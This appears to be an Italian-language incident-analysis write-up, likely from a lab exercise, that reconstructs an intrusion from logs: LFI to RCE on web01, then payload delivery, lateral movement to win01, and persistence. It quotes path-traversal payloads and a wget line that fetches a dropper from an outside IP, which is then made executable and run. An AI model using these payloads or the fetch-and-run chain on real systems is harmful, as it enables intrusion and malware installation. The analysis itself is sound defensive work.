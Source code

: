



# logs 
Web server logs
![Web server logs](../image/2a.png)

Application / Service logs
![ Application / Service logs](../image/2b.png)

Security logs
![ Security logs](../image/2c.png)



# Accesso Iniziale: Da LFI a RCE su web01
```
Recon / Exploitation (web01)
 └── 09:12:14 web01 nginx --> LFI: /reports/view.php?doc=../../../../../../etc/passwd (trace_id=tr-A)
     └── php-fpm -> 200 /etc/passwd
 └── 09:12:16 web01 nginx -> LFI: /download.php?file=../../../var/log/auth.log (trace_id=tr-B)
     └── php-fpm -> 200 /var/log/auth.log
 └── 09:12:18 web01 nginx -> LFI: /app/help.php?topic=../../../../proc/self/environ (trace_id=tr-A)
     └── auditd --> SYSCALL: php-fpm spawns /usr/bin/bash -c "id; uname -a" → RCE conf
 └── 09:15:27 web01 nginx --> Attempted LFI on config.php (trace_id=tr-A) → PHP error / php-fpm crash & restart
```


Alle 09:12:14, ho notato una richiesta GET sospetta alla pagina view.php con un parametro doc che cercava di accedere a:

`../../../../../../etc/passwd`

All’inizio può sembrare solo un test, ma dal log di php-fpm ho visto che il file /etc/passwd è stato effettivamente letto. A quel punto ho capito che il server era vulnerabile a LFI (Local File Inclusion).
Pochi secondi dopo, alle 09:12:16, un’altra richiesta simile ha colpito download.php, cercando di leggere` ../../../var/log/auth.log`. Anche questa volta, il file è stato servito con successo. Questo mi ha fatto pensare che l’attaccante stesse mappando i file interni del sistema.
Il passaggio più critico è avvenuto alle 09:12:18, con una richiesta a:
`help.php?topic=../../../../proc/self/environ`
Questa tecnica è spesso usata per ottenere variabili d'ambiente e avviare codice malevolo. Infatti, il log di auditd conferma che php-fpm ha eseguito `/usr/bin/bash -c "id; uname -a"` 
 Qui ho avuto la conferma... l’attaccante ha ottenuto esecuzione di comandi sul server , quindi siamo passati da LFI a RCE (Remote Code Execution).
Infine, alle 09:15:27, è stato fatto un tentativo su export.php per leggere il file config.php. Ma qualcosa è andato storto.. il php-fpm ha generato un errore e si è bloccato, come confermato dai log di sistema. Il servizio si è poi riavviato automaticamente.
In breve, l’attaccante è partito leggendo file di sistema, ma è riuscito ad arrivare all’esecuzione remota di comandi. Un’escalation chiara e pericolosa.


# Fase di Attacco: Consegna del Payload su web01
```
 Consegna del Payload su web01
 └── 09:18:41 web01 nginx -> LFI: /download.php?file=../../../../etc/hosts (trace_id=tr-B)
     └── 09:18:42 auditd -> wget http://198.51.100.91/.s → saved as /tmp/.svc
     └── 09:19:03 auditd -> chmod +x /tmp/.svc
     └── 09:19:07 auditd  --> /tmp/.svc --ping (dropper)
```
Alle 09:18:41, ho visto un’altra richiesta LFI, questa volta rivolta a download.php con il parametro `file=../../../../etc/hosts` . A prima vista sembrava simile alle precedenti, ma subito dopo ho notato qualcosa di diverso.
Solo un secondo dopo, alle 09:18:42, auditd registra un comando wget che scarica un file da un server esterno (IP: 198.51.100.91) e lo salva come /tmp/.svc. Questo file mi ha subito fatto pensare a un dropper, cioè un piccolo programma usato per caricare malware.
Poco dopo, alle 09:19:03, il file viene reso eseguibile con `chmod +x /tmp/.svc` , e finalmente, alle 09:19:07, viene eseguito con il comando:
`/tmp/.svc –ping`
Questo mi conferma che il payload è stato non solo consegnato, ma anche attivato. A quel punto, l’attaccante aveva un suo file eseguibile in funzione sul server ...segno chiaro che l'infezione era in corso.

# Movimento Laterale: Tentativo da web01 verso win01

```
Movimento Laterale-- Tentativo web01 -> win01
 └── 09:21:05 web01 auditd -> python3 one-liner to ssh admin@win01 (trace_id=tr-A)
     └── 09:24:11 win01 Security -> 4625 admin from 10.10.5.21
     └── 09:24:59 win01 Security -> 4624 logon svc_webapp from 10.10.5.21

```
Alle 09:21:05, ho notato un comando eseguito tramite python3 da web01 che cercava di avviare una sessione SSH con l’utente admin@win01. Era una one-liner classica, del tipo usato per tentare un accesso veloce e silenzioso.
Il tentativo però fallisce, come indicato nel log di sicurezza di win01 alle 09:24:11, che riporta un errore di accesso per l’utente admin proveniente dall’indirizzo IP 10.10.5.21 (cioè il server web01). Fin qui, sembrava solo un test o un primo tentativo manuale.
Ma alle 09:24:59, la situazione cambia: c’è un accesso riuscito, stavolta con l’utente svc_webapp, dallo stesso IP. Questo suggerisce che l’attaccante aveva già credenziali valide per questo account o che le aveva ottenute poco prima. A quel punto, era riuscito a spostarsi dal server Linux (web01) al sistema Windows (win01) ...movimento laterale completato.

# Persistenza: Installazione di Meccanismi su win01

```
Persistenza su win01
 └── 09:25:07 TaskScheduler EventID=106 -> Task registered "\System\UpdaterCache"
     Action = powershell.exe -File C:\ProgramData\upc.ps1 (trace_id=tr-B)
 └── 09:25:11 Sysmon 11 -> FileCreate C:\ProgramData\upc.ps1 (powershell.exe)
 └── 09:25:42 SCM EventID=7045 --> Service inst "WinCacheSvc" → wincache.exe auto-start
 └── 09:26:03 TaskScheduler EventID=201 --> Task "\System\UpdaterCache" str
```
Subito dopo l’accesso riuscito, l’attaccante inizia a stabilire persistenza sul sistema win01. 
09:25:07, ho visto che viene registrato un nuovo task pianificato chiamato \System\UpdaterCache. L’azione associata al task esegue powershell.exe con uno script:
`C:\ProgramData\upc.ps1`
Quattro minuti dopo, alle 09:25:11, Sysmon conferma la creazione del file upc.ps1, eseguito tramite PowerShell. Questo mi fa pensare che il file sia stato generato dinamicamente proprio in quel momento, probabilmente da un comando remoto.
Poi, alle 09:25:42, un nuovo servizio di sistema viene installato: WinCacheSvc, con wincache.exe impostato per l’avvio automatico. Questo è un classico esempio di persistenza tramite servizio Windows .... una tecnica usata per sopravvivere ai riavvii del sistema.
Infine, alle 09:26:03, il task pianificato UpdaterCache viene effettivamente avviato. A questo punto è chiaro: l’attaccante non solo ha avuto accesso al sistema, ma ha anche piazzato meccanismi per restare attivo nel tempo.

